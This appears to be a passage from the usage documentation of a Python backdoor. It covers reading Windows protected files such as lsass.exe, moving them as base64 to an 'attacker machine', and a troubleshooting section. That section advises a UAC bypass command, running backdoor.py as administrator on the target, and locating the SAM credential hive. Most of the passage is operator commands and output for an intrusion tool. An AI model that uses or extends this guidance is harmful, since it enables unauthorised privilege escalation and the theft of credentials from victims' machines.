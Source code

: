 ### Scenario 4: Downloading Protected Executable for Analysis

```bash
# Read protected system file as binary
> priv_read_binary C:\Windows\System32\lsass.exe

Response:
[+] Binary file read successfully
[+] File size: 46592 bytes
[+] Base64 content: TVqQAAMAAAAEAAAA...

# Copy the base64 content and decode on attacker machine:
# echo "TVqQAAMAAAAEAAAA..." | base64 -d > lsass.exe
```

---

## Troubleshooting

### Issue: "Permission denied - admin privileges required"

**Solution 1: Attempt UAC bypass**

```bash
priv_uac_bypass
# Wait a few seconds
priv_check  # Verify elevation
priv_read_file <file>  # Try again
```

**Solution 2: Run backdoor as administrator**

On target machine:

```bash
# Right-click Python and "Run as administrator"
# Or from elevated command prompt:
python backdoor.py
```

**Solution 3: Use alternative access methods**

Some files may be accessible through:

- Registry exports
- Event log queries
- WMI queries
- PowerShell cmdlets

### Issue: "File not found"

Verify the file path:

```bash
# List parent directory first
priv_list_dir C:\Windows\System32

# Check if file exists
dir C:\Windows\System32\config\SAM
```
